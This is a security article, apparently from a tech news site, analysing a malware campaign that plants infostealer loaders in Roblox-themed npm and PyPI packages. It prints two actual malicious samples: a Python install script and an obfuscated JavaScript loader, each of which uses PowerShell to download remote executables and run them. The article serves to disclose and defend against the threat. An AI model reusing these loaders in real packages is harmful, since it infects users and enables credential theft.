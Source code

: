 # Cybercriminals Are Not Playing Games: Malware Hiding in Roblox Mods
![Featued image for: Cybercriminals Are Not Playing Games: Malware Hiding in Roblox Mods](https://cdn.thenewstack.io/media/2025/01/fcc51bc2-gaming-1024x576.jpg)
For decades, opportunistic cybercriminals have preyed on enthusiastic gamers by delivering malware via cracked games or mods. As the threat landscape has evolved, so have cybercriminal tactics.

Online gaming platforms like Discord and Roblox form massive, active user bases reliant on open source libraries for bots, plugins, game cheats and texture packs. [Attackers target these communities with malicious npm and PyPI packages](https://thenewstack.io/what-developers-can-grok-from-the-latest-pypi-package-attack/) in relentless campaigns for illicit financial gain.

Attackers go above and beyond familiar tricks like [typosquatting](https://thenewstack.io/vulnerabilities-versus-intentionally-malicious-software-components/) (where attackers use similarly named packages) to piggyback on association with gamers’ favorite tools to distribute malware. They are increasingly aligning packages with relevant themes, such as `robloxmatcher`
or `solaraupgrade`
, spreading them within the community itself.

## Communities as Malware Vectors
Attackers exploit the trust-based nature of community platforms like Discord, YouTube and forums to deceive inexperienced developers and modders into installing tailored malicious packages.

File sharing between users is commonplace, and automated security tools often misses malicious scripts embedded in packages. In any case, users involved in game hacking are inclined to dismiss antivirus detections as false positives. Installation guides for game cheats often encourage users to disable antivirus and real-time protection, dismantling most safeguards against infection.

### Discord as a Distribution Channel
Discord channels and direct messages are fertile ground for[ social engineering](https://thenewstack.io/how-supply-chain-attackers-maximize-their-blast-radius/). Malicious actors will pose as community members and promote payload-laden tools ultimately aimed at credential harvesting and botnet creation.

For example, a user seeking help with Solara (a Roblox Lua script executor) might be directed to download a malicious npm or PyPI package. This action could deploy a remote access trojan (RAT) on their host.

Subreddits dedicated to Roblox modding contain evidence of this avenue of phishing, with some users rightly questioning the validity of the package installation commands given to them by bad actors. Below, users in the subreddit r/robloxhackers query the safety of npm packages `getsolara`
and `fixsolara`
, which are both malicious.

### YouTube Tutorials
YouTube videos are a popular vector for malware distribution. Tutorials might promise “Unlimited Robux” via a malicious link, with bots leaving pinned comments to convince others of its veracity.

![YouTube videos (translated from Russian) directing Roblox modders to Google Drive-hosted malware.](https://cdn.thenewstack.io/media/2025/01/e57fbada-image3-1011x1024.png)
YouTube videos (translated from Russian) directing Roblox modders to Google Drive-hosted malware.

### GitHub Issues and Comments
GitHub repositories related to Roblox development are also common targets. Bad actors hijack the issues section of legitimate projects, embedding malicious links in “bug fixes” or “feature enhancements.”

## RobloxPlayerLauncher – A Persistent Infostealing Campaign
The Solara-themed packages mentioned above are part of an ongoing, cross-language malicious campaign we at Stacklok have tracked since last September.

### PyPI Campaign Targeting Roblox Users
The campaign began by specifically targeting players of the Roblox game “Da Hood,” one of the most popular on the platform. Malicious packages such as `antibyfron`
, `dahood`
and `roinject`
feigned credibility by mimicking links to Roblox development tools, including Byfron, an anti-cheat system for the framework.

An [investigation by Imperva](https://www.imperva.com/blog/trouble-in-da-hood-malicious-actors-use-infected-pypi-packages-to-target-roblox-cheaters/) revealed both a YouTube channel and a Discord server advertising cheat tools dependent on the malicious packages, which were downloaded over 3,000 times. Upon installation, these would use PowerShell to download and execute a suspicious Windows portable executable (PE).

The script’s functionality was clear, thanks to unobfuscated code and comments. The malware was hosted on an attacker-controlled GitHub repository. Below is Python code from the `__init__.py`
script of the package `antibyfron`
; comments are original.

12345678910111213141516171819 |
import subprocessimport os# Define the output path for the downloaded fileoutput_file = os.path.join(os.getcwd(), "zwerve.exe")# Step 1: PowerShell command to download the file using curl.exedownload_command = f'curl.exe -L https://github[.]com/holdthatcode/e/raw/main/zwerve.exe -o "{output_file}"'# Run the PowerShell command to download the filedownload_result = subprocess.run(["powershell", "-Command", download_command], capture_output=True, text=True)# Check if download succeeded and the file existsif download_result.returncode == 0 and os.path.exists(output_file): # Step 2: Run the downloaded executable silently using the full path execute_command = f'Start-Process "{output_file}" -NoNewWindow -Wait' execute_result = subprocess.run(["powershell", "-Command", execute_command], capture_output=True, text=True)else: print("File download failed or file not found.") |
### Shifting Tactics – Moving to NPM
By mid-October, the threat actors behind this campaign shifted focus to the Node.js ecosystem, publishing Roblox-themed npm packages such as `robloxmatcher`
, `getsolara.dev`
, `upgrade-roblox`
, `solaraupdater`
, `robloxbootstrapper`
and `xeno.dll`
.

All had identical functionality — each containing an obfuscated JavaScript file to load additional Windows binaries via PowerShell. One difference from the PyPI samples was the delivery of two or three payloads, rather than one.

12345678910111213141516 |
const urls = ["https://github[.]com/zvydev/code/raw/main/RobloxPlayerLauncher[.]exe", "https://github[.]com/zvydev/code/raw/main/cmd[.]exe"];const outputFiles = [path.join(__dirname, "RobloxPlayerLauncher[.]exe"), path.join(__dirname, "cmd[.]exe")];function downloadAndRun(_0x3b7236, _0x102edc) {const _0x37a2f3 = "powershell -Command \"Invoke-WebRequest -Uri '" + _0x3b7236 + "' -OutFile '" + _0x102edc + "'\"";const _0x421bc1 = "powershell -Command \"Start-Process '" + _0x102edc + "'\"";exec(_0x37a2f3, (_0x3a523a, _0x3d32f7, _0x492c55) => {if (_0x3a523a) {console.error("Download error: " + _0x3a523a.message);return;}[...]});}urls.forEach((_0x2601bf, _0x4d4889) => {downloadAndRun(_0x2601bf, outputFiles[_0x4d4889]);}); |
### Skuld and Blank Grabber Stealers
Analysis of the downloaded executables revealed that the payload `RobloxPlayerLauncher.exe`
was a variant of [Skuld](https://www.acronis.com/en-eu/cyber-protection-center/posts/tmpn-skuld-stealer-the-dark-side-of-open-source/), an evasive infostealer written in Golang, while `cmd.exe`
was [Blank Grabber](https://www.cyfirma.com/research/blank-grabber-returns-with-high-evasiveness/), a Python-based information stealer. Both are derived from open source malware projects, with overlapping capabilities such as harvesting credentials, cryptocurrency wallets, browser history and gaming platform sessions via Discord Webhooks or Telegram bots.

Although file names and hosting services varied throughout the campaign, the core infostealer strains remained consistent.

By November, the operators had abandoned GitHub and shifted to Replit and Cloudfare Tunnel for hosting their tools, while incorporating new payloads like QuasarRAT, enabling persistent backdoors on victim machines. Recent iterations have streamlined the malware delivery to focus solely on Skuld stealer.

## Summary
An ongoing campaign targeting Roblox users highlights how cybercriminals exploit active gaming communities to expand their blast radius. This tactic is far from unique – similar campaigns have deployed [LunaGrabber](https://www.reversinglabs.com/blog/fake-roblox-api-packages-luna-grabber-npm), [QuasarRAT](https://stacklok.com/blog/destroyloneliness-npm-starjacking-attack-on-roblox-nodejs-library-delivers-quasarrat) and even [ransomware](https://www.sonatype.com/blog/fake-npm-roblox-api-package-installs-ransomware-spooky-surprise).

To counter such persistent threats, modders must rigorously verify package authenticity, stay alert to social engineering tactics and exercise caution when engaging with recommendations from untrusted sources. Tools like [CodeGate](https://codegate.ai/), -an AI coding assistant proxy, can help developers identify and avoid insecure dependencies.

[
YOUTUBE.COM/THENEWSTACK
Tech moves fast, don't miss an episode. Subscribe to our YouTube
channel to stream all our podcasts, interviews, demos, and more.
](https://youtube.com/thenewstack?sub_confirmation=1)